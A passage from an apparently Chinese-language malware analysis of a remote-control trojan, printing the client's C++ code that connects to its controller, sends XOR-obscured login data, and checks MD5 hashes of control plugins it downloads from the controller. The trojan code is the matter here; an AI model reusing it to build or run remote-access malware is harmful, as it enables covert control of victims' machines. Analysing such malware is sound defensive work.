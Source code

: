 ```
    //连接到服务器
    m_Socket = GetConnectSocket(m_Addr, m_Port);
    if(m_Socket == NULL)
    {
        return FALSE;
    }

    //协商初始数据
    LOGININFO m_LoginInfo = {0};
    m_LoginInfo.m_Cmd = nCmd;
    m_LoginInfo.m_hWnd = (HWND) nPassWord;
    m_LoginInfo.m_UserId = PS_USER_ID;
    EncryptByte(&m_LoginInfo, sizeof(LOGININFO));
    return SendData(&m_LoginInfo, sizeof(LOGININFO));
}

void CMyClientTran::EncryptByte(LPVOID pData, DWORD nLen)
{
    BYTE* pTmpData = (BYTE*) pData;
    for(DWORD i = 0; i < nLen; i++)
    {
        pTmpData[i] = pTmpData[i] ^ PS_ENTRY_COMM_KEY;  
    }
}

```

连接控制端成功后发送软件版本和上线密码（传输的数据使用异或F7加密，有点弱爆的感觉。），然后从主控端下载控制插件。

![enter image description here](http://drops.javaweb.org/uploads/images/04c0ccaabb7d7ac6d4158fec0dc91e4b6b752f43.jpg)

```
void CMyWorkMoudle::MakeModFileMd5(LPCTSTR pFileName, BYTE* sMd5Str)
{
    HANDLE hFile = CreateFile(pFileName, GENERIC_READ, FILE_SHARE_READ,NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if(hFile == INVALID_HANDLE_VALUE)
    {
        return;
    }

    DWORD nReadLen = 0;
    DWORD nFileLen = GetFileSize(hFile, NULL);
    BYTE* pFileData = new BYTE[nFileLen];
    ReadFile(hFile, pFileData, nFileLen, &nReadLen, NULL);
    CloseHandle(hFile);

    //校验本地文件
    MD5_CTX context = {0};
    MD5Init (&context);
    MD5Update (&context, pFileData, nFileLen);
    MD5Final (&context);

    //保存校验码
    CopyMemory(sMd5Str, &context, 16);

    delete [] pFileData;
}   

HMODULE CMyWorkMoudle::GetModFile(char* pFilePath, UINT nCmd)
{
    //MD5校验
    BYTE m_DllFileMd5[24] = {0};
    MakeModFileMd5(m_ModFilePath, m_DllFileMd5);
```